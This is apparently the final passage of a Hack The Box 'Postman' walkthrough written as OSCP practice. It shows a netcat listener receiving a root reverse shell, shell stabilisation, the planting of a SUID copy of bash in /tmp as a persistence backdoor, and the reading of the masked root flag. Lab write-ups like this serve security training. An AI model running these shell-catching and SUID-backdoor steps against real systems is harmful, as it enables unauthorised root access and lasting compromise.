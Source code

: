 So let's check the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.160] 33784
python -c 'import pty;pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/# export TERM=xterm
export TERM=xterm
root@Postman:/usr/share/webmin/package-updates/# ^Z
zsh: suspended  nc -lvnp 4444
                                                     
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ stty raw -echo; fg                               
[1]  + continued  nc -lvnp 4444

root@Postman:/usr/share/webmin/package-updates/# id
uid=0(root) gid=0(root) groups=0(root)
```

There is the root shell. The shell is pretty slow on my system, I do not know why, but I cannot really work in it. So I create a copy of bash with SUID bit set, so I can execute it from SSH (which works much better):

```bash
root@Postman:/usr/share/webmin/package-updates/# cp /bin/bash /tmp/rootbash 
root@Postman:/usr/share/webmin/package-updates/# chmod +s /tmp/rootbash
```

Let's try to use it using the redis user from the SSH session:

```bash
redis@Postman:/tmp$ ./rootbash -p
roobash-4.4# id
uid=107(redis) gid=114(redis) euid=0(root) egid=0(root) groups=0(root),114(redis)
```

There is the shell where you have root permissions.

## Root Flag

---

With the more stable root shell, I can get the root flag:

```bash
roobash-4.4# cat /root/root.txt
3a**************************e5d2
```

This copy of bash which can be executed as root and is also useful to maintain persistency, which is not very useful on a box but in a real environment this can safe a lot of time.

# Conslusions

---

The box was not so easy but a good practice for the OSCP exam. I can recommend it, you learn a lot and discover new services, like redis.